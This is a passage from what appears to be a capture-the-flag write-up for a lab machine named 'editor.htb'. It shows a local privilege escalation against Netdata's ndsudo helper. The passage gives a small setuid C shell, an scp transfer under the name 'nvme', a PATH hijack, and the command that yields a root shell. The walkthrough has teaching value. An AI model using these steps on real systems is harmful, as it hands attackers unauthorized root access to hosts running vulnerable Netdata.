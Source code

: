 1. We setup and statically compile a C shell on our attacking machine:

```C 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

2. Transfer it to the target machine with `scp` since we have `SSH` creds:

```bash
scp nvme oliver@editor.htb:~/evilsal/nvme
```
>Note that the name `nvme` is crucial here, we need a name of a command that the `ntsudo` can execute.
{: .prompt-warning }

3. Add the `evilsal` directory to the `PATH` variable:

```bash 
export PATH=$HOME/evilsal:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```
4. Now, simply run the the `ndsudo` with the `nvme-list` option:
```bash 
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

This will grant us a root shell, no questions asked.

>Rooted. Done. 
{: .prompt-tip }












